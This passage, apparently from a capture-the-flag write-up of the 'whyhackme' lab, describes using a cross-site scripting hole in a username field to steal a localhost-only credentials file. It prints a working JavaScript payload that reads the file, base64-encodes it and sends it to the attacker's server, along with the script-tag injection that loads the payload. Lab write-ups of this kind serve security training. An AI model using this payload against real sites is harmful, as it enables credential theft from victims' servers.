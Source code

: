 ![4](/images/whyhackme/4.jpg)


## Exfiltrating Data with XSS

With a working XSS injection point through the username field, I decided to take the attack a step further—stealing internal-only data from the server.

The target was clear: the message in update.txt had hinted that credentials were stored at `127.0.0.1/dir/pass.txt`, accessible only from localhost. Since external users can’t reach `127.0.0.1` on the target server, I needed to trick the victim's browser into fetching this file and sending it to me.

To do this, I wrote a small JavaScript payload that sends a GET request to the localhost URL and base64-encodes the response, then forwards it to my own server.

Here’s the code I used:

```
var x=new XMLHttpRequest();
x.onreadystatechange=function(){
    if(x.readyState==4)
        fetch("http://10.23.106.242:1337/receive?data="+btoa(x.responseText))
};
x.open('GET',"http://127.0.0.1/dir/pass.txt",1);
x.send(null);
```

I hosted this JavaScript file using Python’s built-in web server. Then, I injected this payload via the username field, referencing my external script like this:

```
<script src="http://10.23.106.242:1337/xss.js"></script>
```
